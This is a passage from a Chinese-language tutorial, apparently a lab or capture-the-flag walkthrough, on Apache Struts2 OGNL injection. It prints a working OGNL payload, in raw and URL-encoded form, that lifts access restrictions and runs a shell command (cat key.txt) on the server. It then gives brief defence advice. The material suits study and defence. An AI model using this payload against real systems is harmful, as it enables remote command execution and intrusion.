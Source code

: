 ![image-20230413145246665](https://s2.loli.net/2023/04/13/wakUeLfYQSrKlmj.png)

#### 3.3.6.5. 获取key值

由于使用工具很容易就获取到了key值，这里我们使用exp进行获取。

```
/${#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat key.txt').getInputStream()),#q}.action
```

url编号后的exp

```
/%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20key.txt%27%29.getInputStream%28%29%29%2C%23q%7D.action
```

![image-20230413145252916](https://s2.loli.net/2023/04/13/DFKy8kQSEHpLmhZ.png)

# 4. 防御

其实两者的防御都是一样的。需要对敏感函数禁用，就是之前提到的一些函数已经未提到的，同时对相关的变量进行过滤，再其次就是之上使用WAF的产品进行防护。

# 5. 其他

这里的WAF绕过我并没有提，可以自行百度搜索，因为像这类漏洞，多数需要白盒查看源代码进行代码审计然后才能发现漏洞，当然也不是说黑盒不行，主要要考虑到，对方参数有没有修改，设置了哪些过滤等等，盲猜比较麻烦。
